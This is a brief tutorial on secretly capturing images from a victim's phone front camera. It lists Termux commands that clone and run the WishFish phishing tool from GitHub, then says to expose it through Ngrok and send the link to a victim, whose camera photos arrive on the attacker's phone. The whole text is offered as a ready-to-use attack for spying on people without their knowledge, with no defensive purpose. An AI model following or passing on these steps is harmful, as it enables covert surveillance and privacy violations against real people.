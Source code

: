 -Today I Will Show you how to Hack any Victim's phone Front Camera
-So lets get started
-Follow this all comands to do this
-So for this you have to first install termux from android
-After installing termux from playstore
-Type all this comands
-First you have to update your termux
-For updating your termux type

$ apt update && apt upgrade

$ pkg install php

$ pkg install openssh

$ apt install git

$ git clone https://github.com/kinghacker0/WishFish

$ cd WishFish

$ bash wishfish.sh

-Now simply Turn on your Hotspot.

-After turning on your Hotspot choose option-2 (Ngrok)

-Now you will see there is a link generated.
 Now simply send this link to Victim, 
 when the victim open this link, 
 in your Termux you will see that (Cam file received)

-After that open your phone’s gallery, 
 and then you will see the captured images by the victims Phone 

☆ So by this easy steps you can easly hack any victim's Front camera
